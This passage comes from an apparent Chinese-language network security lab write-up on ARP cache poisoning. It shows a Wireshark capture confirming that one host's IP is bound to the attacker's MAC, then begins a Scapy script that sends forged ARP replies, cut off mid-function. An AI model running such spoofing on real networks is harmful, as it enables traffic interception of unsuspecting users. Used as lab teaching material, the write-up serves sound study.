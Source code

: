 ![1-A-2](../image/1-A-2-173140109309210.png)

在 $hostA$ 上查看 ARP 缓存：

![1-A-3](../image/1-A-3-173140116707712.png)

 可以看到 $hostB$ 的 IP 地址已经和 $hostM$ 的 MAC 地址绑定起来了，欺骗成功。

我们再使用 `wireshark` 进行抓包：

![1-A-4](../image/1-A-4.png)

可以看出 $hostM$ 伪装 $hostB$ 的 IP 地址，向 $hostA$ 询问“谁是10.9.0.5”，$hostA$ 会将 $hostB$ 的 IP 地址 $10.9.0.6$ 与欺骗的 $hostM$ 的 MAC 地址绑定并保存进 ARP 缓存表中。

---



### Task1. B: using ARP reply

这次我们使用ARP 回复数据包，来进行欺骗。

编写 `arp-reply.py` :

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_reply(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP回复 (op=2) 实现ARP欺骗，伪装目标IP地址的MAC地址。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=2,             # op=2 表示ARP回复
```